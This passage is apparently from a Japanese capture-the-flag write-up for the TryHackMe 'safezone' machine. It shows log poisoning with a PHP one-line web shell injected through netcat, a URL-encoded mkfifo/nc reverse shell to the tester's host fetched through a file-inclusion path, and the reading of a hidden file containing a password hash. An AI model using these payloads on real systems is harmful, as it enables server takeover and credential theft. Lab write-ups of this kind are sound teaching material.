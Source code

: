 ```
{"id":"552","username":"yash","password":"yash","is_admin":"false"}
```

これはWeb画面の認証情報で役に立たない。

yash, files の id_rsa は存在しなかった。

## ログポイズニング

http://safezone.thm/detail.php?page=/var/log/apache2/access.log でログの内容が表示される。

bad request を送る。

```shell
$ nc 10.10.229.219 80          
<?=`$_GET[0]`?>
HTTP/1.1 400 Bad Request
Date: Sat, 10 May 2025 08:24:16 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 127.0.1.1 Port 80</address>
</body></html>
```

http://safezone.thm/detail.php?page=/var/log/apache2/access.log&0=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%32%32%2e%31%38%32%20%36%36%36%36%20%3e%2f%74%6d%70%2f%66 でリバースシェル取得成功。

```shell
$ nc -nvlp 6666                
listening on [any] 6666 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.229.219] 36948
sh: 0: can't access tty; job control turned off
$ 
```

## 権限昇格１

```shell
www-data@safezone:/var/www/html$ cd /home/files
www-data@safezone:/home/files$ cat '.som[REDACTED]ere'
files:$6$BUr7q[REDACTED]
```
